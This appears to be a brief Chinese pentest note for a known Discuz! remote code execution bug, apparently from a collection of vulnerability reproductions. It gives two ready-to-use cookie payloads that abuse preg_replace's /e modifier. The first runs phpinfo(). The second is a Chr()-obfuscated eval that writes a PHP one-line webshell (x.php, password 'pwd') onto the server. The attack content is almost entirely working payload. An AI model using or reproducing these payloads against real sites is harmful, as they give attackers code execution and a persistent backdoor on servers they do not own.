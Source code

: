 ## DiscuzRCE（wooyun-2010-080723）

进入默认板块

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220627112616.png)

随便点一篇文章

修改Cookie：

```
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220627112721.png)



getshell:

同样方法传入以下Cookie写入一句话木马文件，文件为x.php，密码为pwd

```
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(120).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(112).Chr(119).Chr(100).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```

